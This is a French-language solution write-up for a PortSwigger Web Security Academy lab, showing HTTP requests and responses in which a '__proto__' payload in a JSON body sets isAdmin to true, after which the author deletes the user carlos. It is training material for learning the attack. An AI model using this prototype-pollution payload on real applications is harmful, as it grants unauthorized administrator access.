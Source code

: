 # Lab

https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution

## Solution

Sur ce lab, quand on se connecte avec le compte `wiener:peter`, on a la possibilité de modifier quelques informations de notre compte.

```html
POST /my-account/change-address HTTP/2
Host: 0a7200bc0321c0ad803ebccd001b0097.web-security-academy.net
Cookie: session=lX0eeW2NJ6xfkDv4zXAnlyxppw4ufAgH
Content-Length: 161
Content-Type: application/json;charset=UTF-8

{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "city",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "lX0eeW2NJ6xfkDv4zXAnlyxppw4ufAgH"
}
```

Et on réponse on voit un paramètre `isAdmin` valorisé à `false`:

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"be-yKPHaqORts+uJq/17a+NGfenBR8"
Date: Fri, 05 Jan 2024 11:22:55 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 190

{
  "username": "wiener",
  "firstname": "Peter",
  "lastname": "Wiener",
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "city",
  "postcode": "BU1 1RP",
  "country": "UK",
  "isAdmin": false
}
```

On peut essayer de polluer le prototype de l'objet `req.session` pour modifier la valeur de `isAdmin` à `true`.

```html
POST /my-account/change-address HTTP/2
Host: 0a7200bc0321c0ad803ebccd001b0097.web-security-academy.net
Cookie: session=lX0eeW2NJ6xfkDv4zXAnlyxppw4ufAgH
Content-Length: 83
Content-Type: application/json;charset=UTF-8

{
    "sessionId":"lX0eeW2NJ6xfkDv4zXAnlyxppw4ufAgH",
    "__proto__": {
        "isAdmin": true
    }
}
```

Et on réponse on voit qu'on est bien admin:

```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"bd-L8y/5aMbXXJM1UBoGhApdoVQX5U"
Date: Fri, 05 Jan 2024 11:25:02 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 189

{
  "username": "wiener",
  "firstname": "Peter",
  "lastname": "Wiener",
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "city",
  "postcode": "BU1 1RP",
  "country": "UK",
  "isAdmin": true
}
```

Maintenant on a accès à la page d'administration et on peut supprimer l'utilisateur `carlos` pour valider le lab.
